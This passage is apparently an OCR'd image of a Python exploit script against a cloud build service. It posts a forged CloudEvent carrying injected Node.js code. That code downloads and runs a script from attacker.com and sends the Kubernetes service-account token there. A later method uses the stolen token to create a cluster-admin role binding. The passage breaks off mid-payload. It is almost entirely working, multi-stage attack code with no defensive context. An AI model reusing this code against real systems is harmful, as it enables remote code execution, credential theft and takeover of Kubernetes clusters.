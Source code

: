 ```python
        self.target = target
        self.session = requests.Session()
        
    def stage1_inject_code(self):
        """Stage 1: Inject malicious code via CloudEvent"""
        payload = {
            "specversion": "1.0",
            "type": "build.started",
            "source": "exploit",
            "id": "pwn-001",
            "data": {
                "buildID": "exploit-build",
                "imageName": "pwned-image",
                "sourceCode": self.get_malicious_code(),
                "runtime": "nodejs18"
            }
        }
        
        resp = self.session.post(
            f"{self.target}/cloudevents",
            json=payload,
            headers={"Content-Type": "application/cloudevents+json"}
        )
        
        return resp.status_code == 200
    
    def get_malicious_code(self):
        """Generate malicious source code"""
        return """
        const { exec } = require('child_process');
        const http = require('http');
        
        // Stage 2: Download and execute payload
        exec('wget http://attacker.com/stage2.sh -O /tmp/s && chmod +x /tmp/s && /tmp/s', 
             (err, stdout, stderr) => {
            if (!err) {
                // Stage 3: Exfiltrate K8s token
                const token = require('fs').readFileSync(
                    '/var/run/secrets/kubernetes.io/serviceaccount/token', 
                    'utf8'
                );
                
                http.get(`http://attacker.com/token?t=${encodeURIComponent(token)}`);
            }
        });
        
        // Legitimate-looking code
        module.exports.handler = async (event) => {
            return { statusCode: 200, body: 'OK' };
        };
        """
    
    def stage2_get_token(self, token):
        """Stage 2: Use stolen token to escalate privileges"""
        headers = {"Authorization": f"Bearer {token}"}
        
        # Try to create cluster-admin binding
        payload = {
            "apiVersion": "rbac.authorization.k8s.io/v1",
            "kind": "ClusterRoleBinding",
            "metadata": {"name": "exploit-admin"},
            "roleRef": {
                "apiGroup": "rbac.authorization.k8s.io",
```